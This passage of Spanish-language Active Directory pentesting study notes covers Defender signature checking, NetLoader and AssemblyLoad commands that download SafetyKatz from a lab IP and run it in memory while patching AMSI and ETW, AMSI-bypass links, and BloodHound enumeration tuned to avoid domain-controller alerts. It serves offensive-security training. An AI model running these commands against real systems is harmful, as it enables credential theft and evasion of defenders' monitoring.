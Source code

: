 Herramienta para identificar codigo y strings desde un binario/archivo que puede ser detectado por Windows Defender.

```
### DefenderCheck
DefenderCheck.exe PowerUp.ps1
```
## NetLoader

Podemos utilizar NetLoader  para entregar nuestras cargas binarias.

¿Por qué necesitamos NetLoader (Loader.exe)? ¿Cuál es la diferencia entre ejecutar normalmente y ejecutar con loader.exe? 

- Puede ser usado para cargar binarios desde una ruta de archivo o URL y parchear AMSI & ETW mientras se ejecuta para que no sea detectado por AV.

```
C:\Users\Public\Loader.exe -path http://192.168.100.X/SafetyKatz.exe
```

 También está AssemblyLoad.exe que se puede utilizar para cargar el NetLoader en memoria desde una URL para que luego cargue un binario desde una ruta de archivo o URL.

```
C:\Users\Public\AssemblyLoad.exe http://192.168.100.X/Loader.exe -path http://192.168.100.X/SafetyKatz.exe
```
### Más sobre AMSI Bypass:

- [**Amsi Overview and Bypass Methods**](https://medium.com/@nullx3d/amsi-overview-and-bypass-methods-76b9d5896eb5)
- [**AMSI Bypass Methods**](https://pentestlaboratories.com/2021/05/17/amsi-bypass-methods/)
- [**Hunting for malicious strings using AmsiTrigger**](https://www.rythmstick.net/posts/amsitrigger/)
- [**Invoke-Obfuscation - Hiding Payloads To Avoid Detection**](https://medium.com/@ammadb/invoke-obfuscation-hiding-payloads-to-avoid-detection-87de291d61d3)
# Domain Enumeration

Se pueden usar herramientas como PowerView, BloodHound, ActiveDirectory Module para la enumeración.

- ActiveDirectory PowerShell module puede ejecutarse incluso en entornos con la Política de Lenguaje Constrained (CLM) de PowerShell.

```
### ActiveDirectory PowerShell module
Import-Module C:\AD\Tools\ADModule-master\Microsoft.ActiveDirectory.Management.dll
Import-Module C:\AD\Tools\ADModule-master\ActiveDirectory\ActiveDirectory.psd1

### PowerView
C:\AD\Tools\PowerView.ps1

### BloodHound
### Ejecutar Ingestors\Collectors
. C:\AD\Tools\BloodHound-master\Collectors\SharpHound.ps1 
Invoke-BloodHound -CollectionMethod All
SharpHound.exe
### Para evitar alertas sobre la enumeración de sesiones en los DCs
Invoke-BloodHound -CollectionMethod All -ExcludeDomainControllers
```
## Dominio
